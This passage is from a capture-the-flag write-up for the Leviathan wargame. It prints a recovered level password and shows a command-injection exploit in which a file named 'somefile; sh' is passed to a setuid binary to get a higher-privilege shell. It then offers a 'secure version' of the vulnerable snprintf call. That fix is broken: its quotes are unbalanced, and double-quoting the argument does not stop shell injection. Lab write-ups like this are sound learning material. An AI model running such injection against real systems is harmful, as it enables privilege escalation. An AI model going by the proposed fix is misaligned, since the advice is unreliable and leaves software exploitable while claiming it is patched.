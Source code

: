 		$ 
		$ cat /etc/leviathan_pass/leviathan3
		Ahdiemoo1j
		$ 
		
* **GAME OVER!**

### Password for leviathan3: Ahdiemoo1j

-----------------------------
**PS**: 

1. In general, the exploit can be like this:

		leviathan2@leviathan:/tmp$ touch "somefile; sh"
		leviathan2@leviathan:/tmp$ 
		leviathan2@leviathan:/tmp$ ~/printfile "somefile; sh"
		/bin/cat: somefile: No such file or directory
		$ 
		$ id
		uid=12003(leviathan3) gid=12002(leviathan2) groups=12002(leviathan2)
		$ 
		$ whoami
		leviathan3
		$ 

* You don't have to create the **f1** file I created. Because, if that file is not there, then **/bin/cat** will fail, which does not hurt the exploit. 

* But, we have to care about this. There has to be a file named **somefile; sh**, because it's presence will be checked by **access()**. If this file is not present, then simply executing **~/printfile "somefile; sh"** wont work, because it will just stop after access()  returns a **-1** because no such file exists. 

2. When I saw the **ltrace** output, I thought that question is crafted just to read **/etc/leviathan_pass/leviathan3** and get the password. But this turned out to be a proper **arbitrary code execution vulnerability**. Let us see why this vulnerability is  present. In this program, the **snprintf** was not written in right manner. 
	
	* This is how it is present in this program(**vulnerable version**) :
		
			snprintf(str, 511, "/bin/cat %s", some_string);
	
	* But, it should have been like this:(**secure version**) :
	
			snprintf(str,511, "/bin/cat \"%s\", some_string);

	* Suppose some_string = "somefile; sh" .
	
	* The vulnerable version generates str = **/bin/cat somefile; sh** , and we know how it is executed. 
	
	* The secure version generates str =  **/bin/cat "somefile; sh"**	: This way, the the vulnerability is patched. 

* Look at the difference between the vulnerable and the secure versions. There is hardly any difference - just a pair of double quotes . It is very easy to overlook the double quotes while coding, thereby creating such a wonderful (:P) security vulnerability in the whole software. 

3. To see exactly how **access()** works, refer the manpage : `$ man access` and it explains stuff about access() in a very detailed manner.


	
			


